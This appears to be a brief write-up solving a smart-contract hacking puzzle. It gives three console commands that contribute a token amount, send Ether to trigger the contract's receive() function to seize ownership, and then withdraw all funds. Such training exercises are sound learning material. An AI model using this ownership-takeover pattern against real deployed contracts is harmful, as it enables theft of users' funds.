 this puzzle can be directly crack from either console or remix

for console:
//to make your contributions > 0
await contract.contribute({value: 1});

//to trigger the receive() function to set owner to your account
await contract.sendTransaction({value: 1});

//then withdraw all the money
await contract.withdraw();